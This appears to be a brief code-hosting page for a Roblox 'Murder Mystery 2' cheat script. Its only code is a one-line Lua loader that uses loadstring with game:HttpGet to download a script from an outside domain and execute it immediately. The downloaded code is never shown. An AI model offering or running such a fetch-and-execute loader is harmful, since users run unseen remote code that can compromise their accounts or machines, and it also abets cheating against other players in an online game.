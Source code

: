 # MM2-sceipt


loadstring(game:HttpGet("https://egorikusa.space/b42554538344340741d3a4ff.lua", true))()
